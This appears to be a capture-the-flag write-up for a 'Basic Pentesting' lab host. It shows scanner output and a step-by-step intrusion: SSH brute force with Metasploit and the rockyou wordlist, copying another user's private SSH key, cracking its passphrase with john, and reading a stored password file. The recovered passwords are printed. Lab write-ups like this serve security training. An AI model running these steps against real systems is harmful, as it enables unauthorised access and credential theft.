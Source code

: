 # Basic Pentesting
---
## Enumeration

- **IP Address:** 10.10.73.11

### gobuster
`gobuster dir -u 10.10.73.11 -x .php,.xml,.html -w /usr/share/wordlists/dirb/common.txt`

<pre>
.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.xml (Status: 403)
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.xml (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.xml (Status: 403)
/.htpasswd.html (Status: 403)
[/development (Status: 301)](###10.10.73.11/development/)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
</pre>

### nmap
`nmap -A -T5 -p- 10.10.73.11`
<pre>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown\>
(unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-05-18T12:25:16-04:00                                                                                                                                                                                                 
| smb-security-mode:                                                                                                                                                                                                                       
|   account_used: guest                                                                                                                                                                                                                    
|   authentication_level: user                                                                                                                                                                                                             
|   challenge_response: supported                                                                                                                                                                                                          
|_  message_signing: disabled (dangerous, but default)                                                                                                                                                                                     
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                                                                                                             
| smb2-time:                                                                                                                                                                                                                               
|   date: 2021-05-18T16:25:16                                                                                                                                                                                                              
|_  start_date: N/A
</pre>



### nikto
`nikto -h 10.10.73.11`
<pre>
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OSVDB-3268: /development/: Directory indexing found.
+ OSVDB-3092: /development/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.

</pre>
### Wappalyzer
- **Webserver:** Apache 2.4.18
- **OS:** Ubuntu
---
## Investigation

### /index.html
- Just shows undergoing maintenance

### /development/

Contains: 
1. j.txt
a. Reveals that they are using vers 2.5.12, using "struts"
-- [Exploitdb shows vers 2.5.12 of vulnerable to RCE](https://www.exploit-db.com/exploits/42627)
b. Shows SMB configured, nmap shows it as 2.02
-- no vulns there
2. dev.txt 
a. Reveals that user "j" has a weak password hash


## Intrusion

1. ~~port 8009 allows POST, maybe inject the vuln found on exploitDB above?~~
2. SMB port 445 is open for enum4linux 
`enum4linux -a 10.10.73.11`
a. gives us "jan" and "kay"
3. brute force using ssh with metasploit
a. open metasploit
b. set options 
```  
search ssh
use 18
set USERNAME jan
set RHOSTS 10.10.73.11
set RPORT 22
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
exploit
```
c. **password:** armando

## post-intrusion

`cd /tmp`
- `nano linenum.sh` and copy paste [enumeration script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- ~~check for GTFO bins~~
- ~~check for relaxed permissions~~
- go looking in /home/kay for some information
` cat /home/kay/.ssh/id_rsa`

on local machine:
`ssh -i kaykey kay@10.10.73.11`
- connection asks for passphrase?

```
ssh2john.py kaykey > johnkey
john -wordlist=/usr/share/wordlists/rockyou.txt johnkey
```
passphrase= "beeswax"

`ssh -i kaykey kay@10.10.73.11`
**passphrase:** beeswax
`cat pass.bak`
>heresareallystrongpasswordthatfollowsthepasswordpolicy$$

